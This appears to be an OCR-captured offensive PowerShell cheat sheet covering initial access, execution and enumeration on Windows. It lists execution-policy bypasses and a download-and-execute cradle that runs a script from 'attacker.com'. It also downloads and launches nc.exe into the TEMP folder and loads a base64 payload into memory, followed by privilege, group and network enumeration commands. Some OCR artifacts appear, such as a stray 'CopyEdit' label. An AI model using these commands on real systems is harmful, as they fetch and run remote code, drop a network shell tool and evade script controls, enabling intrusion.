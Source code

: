 
## **🔥 Initial Access & Execution**

### **Bypassing Execution Policy**

```
Set-ExecutionPolicy Unrestricted -Force    # Allow all scripts to run powershell -ep bypass                      # Bypass execution policy temporarily
```

### **Download & Execute Payloads**

```
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1') (New-Object System.Net.WebClient).DownloadFile("http://attacker.com/nc.exe", "$env:TEMP\nc.exe") Start-Process "$env:TEMP\nc.exe"
```

### **Memory Injection**

```
[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String("BASE64_PAYLOAD"))
```

---

## **📡 Enumeration**

### **System Info**

powershell

CopyEdit

```
Get-ComputerInfo
(Get-WMIObjectWin32_OperatingSystem).Caption
```

### **User & Privileges**

```
whoami /priv
net localgroup Administrators
Get-LocalGroupMember Administrators
```


### **Network**

```
ipconfig /all
Get-NetTCPConnection | Where-Object { $_.State -eq "Listen" }
```
